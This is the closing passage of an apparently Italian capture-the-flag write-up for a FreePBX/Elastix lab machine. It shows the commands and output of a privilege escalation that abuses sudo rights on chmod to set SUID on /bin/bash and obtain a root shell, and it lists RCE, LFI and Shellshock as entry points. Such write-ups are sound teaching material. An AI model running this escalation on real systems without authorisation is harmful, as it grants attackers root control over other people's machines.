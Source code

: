 
## Privesc chmod

Come visto in precedenza con `sudo -l` possiamo anche eseguire chmod con privilegi di root
Sceglierò un file, come /bin/bash, e lo imposterò su SUID:

```bash
bash-3.2$ ls -l /bin/bash
-rwxr-xr-x 1 root root 735004 Jan 22  2009 /bin/bash
bash-3.2$ sudo chmod 4755 /bin/bash
bash-3.2$ ls -l /bin/bash
-rwsr-xr-x 1 root root 735004 Jan 22  2009 /bin/bash

```

Ora eseguiamo con -p, e ottieniamo una shell di root:

```bash
bash-3.2$ bash -p 
bash-3.2# id uid=100(asterisk) gid=101(asterisk) euid=0(root)
```

# LESSON LEARNED

Ci sono diversi modi per ottenere il root della macchina, quelli presentati qui includono 

- Una RCE relativo all'applicativo FreePBX / Elastix
- Una LFI dell'applicativo FreePBX / Elastix
- ShellShocker 

Per la privesc abbiamo utilizzato delle misconfiguration di Nmap e chmod

